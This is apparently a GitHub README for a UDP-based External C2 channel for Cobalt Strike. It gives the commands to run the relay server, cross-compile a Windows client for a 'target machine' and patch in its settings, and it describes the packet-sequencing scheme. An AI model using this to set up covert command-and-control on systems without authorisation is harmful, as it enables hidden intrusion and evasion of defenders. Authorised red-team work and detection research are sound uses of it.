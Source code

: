 # COBALT STRIKE ROBUST UDP CHANNEL

This project provides a UDP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any UDP-based protocol.

This channel guarantees in-order delivery. It does this through sequence numbers and generic ACK packets. Full description is below the guide.

This channel also assumes the network uses IPv4. TCP allows for protocol-agnostic sockets, but UDP does not. Changing the socket to IPv6 currently requires editing the code.

To use the Robust UDP channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and PyCryptodome

> pip3 install pycryptodome

To start the server, run the following command:

> python3 server.py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Timeout] [Retries] [Key] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server communicates with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.
- [Key] AES key to encrypt the beacon that is initially sent. It must be the same as the client. (128 bit is 16 characters)
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.  
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x64 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

If you have the MinGW compiler installed, you may compile the client.c code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c -lws2_32

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c -lws2_32

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout] -f [Retries] -g [Key]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.
- [Key] AES key to encrypt the beacon that is initially sent. It must be the same as the client.

## GUARANTEED DELIVERY DESCRIPTION

This channel uses generic ACK packets and packet sequence numbers to provide reliable data transmission over UDP.

Every packet (except for ACKs) starts with a 4-byte sequence number. In the current implementation, this number starts at 0 and increments by 1 for every successful receipt. The recipient of a packet first checks the sequence number. If it’s equal to the expected sequence number, the recipient sends a generic ACK, takes in the data, and increments the expected sequence number by 1. If the sequence number received is less than the expected sequence number, the recipient sends an ACK but doesn’t do anything else. If the sequence number received is greater than the expected sequence number, the recipient does nothing. (This is undefined behavior; the program should never reach this point.) The ACK message just consists of the word “ACK”. It does not contain an acknowledgement number.

When transmitting data, the sender sends packets one at a time. After every transmission, the sender waits until a specified timeout for an ACK packet. If no ACK is received, the sender retransmits the packet. Once the sender receives an ACK packet, they will increment their sequence number by 1 and transmit any more data if necessary.

The packet max size is defined in the code. It is currently 1024 bytes. Senders repeatedly transmit packets of that size or less until all of their data is sent. (Note: this max size does not include the sequence number, so the actual packet sent will have a payload of 1028 bytes.)

The timeout is defined by the operator. It is recommended that the client timeout be twice as long as the server timeout due to the server forwarding data to the teamserver and back.

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- If the server goes down, due to trying to maintain reliability through packet drop, the client will continue sending packet retransmissions to the dead IP address until the retries counter is hit.
- The sequence numbers do not roll over, so 2^32 packets is the maximum that can be sent by either the client or the server.

## TODOS/IMPROVEMENTS

- UDP does not allow for protocol-agnostic sockets. A choice between IPv4 and IPv6 should be added as an argument passed to both programs.
- A more efficient solution than "ack every packet" should be developed. One idea is to have the recipient ACK a size packet, then allocate an array to keep track of the packets received for that payload. The recipient only sends an ACK once they receive all the data, and the sender retransmits everything if they don't receive an ACK.
- Allow the user to control the packet size via commmand line arguments.
- Start the sequence number on a randomly generated value. (Both the client and the server are configured to handle receiving an arbitrary sequence number, but they don't send randomized ones as of yet.)
- Roll over the sequence number once it reaches its max.
- Packets from the server to the client calculate the checksum incorrectly according to Wireshark. Possibly UDP Checksum Offloading.
- When capturing the entire connection, Wireshark identifies the traffic as QUIC protocol. Unknown why this is.
